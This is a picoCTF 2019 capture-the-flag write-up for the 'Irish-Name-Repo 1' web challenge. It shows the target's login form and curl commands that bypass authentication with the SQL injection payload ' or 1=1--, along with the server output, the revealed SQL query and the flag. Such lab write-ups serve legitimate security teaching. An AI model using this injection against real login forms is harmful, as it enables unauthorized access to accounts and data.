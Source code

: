 # Irish-Name-Repo 1
Web Exploitation, 300 points

## Description:
> There is a website running at http://2019shell1.picoctf.com:4162. Do you think you can log us in? Try to see if you can login!


## Solution: 


The website offered an admin login page:

```html
<form action="login.php" method="POST">
    <fieldset>
        <div class="form-group">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" class="form-control">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <div class="controls">
                <input type="password" id="password" name="password" class="form-control">
            </div>
        </div>
        <input type="hidden" name="debug" value="0">

        <div class="form-actions">
            <input type="submit" value="Login" class="btn btn-primary">
        </div>
    </fieldset>
</form>
```

In order to bypass the authentication logic, all we needed to do is provide a classic SQLi string:
```console
root@kali:/media/sf_CTFs/pico/Irish-Name-Repo_1# curl "https://2019shell1.picoctf.com/problem/4162/login.php" --data "username=admin&password='+or+1=1--" && echo
<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_96ab211c}</p>
```

It was also possible to set the `debug` parameter in order to inspect the SQL statement:
```console
root@kali:/media/sf_CTFs/pico/Irish-Name-Repo_1# curl "https://2019shell1.picoctf.com/problem/4162/login.php" --data "username=admin&password='+or+1=1--&debug=1" && echo
<pre>username: admin
password: ' or 1=1--
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1=1--'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_96ab211c}</p>
```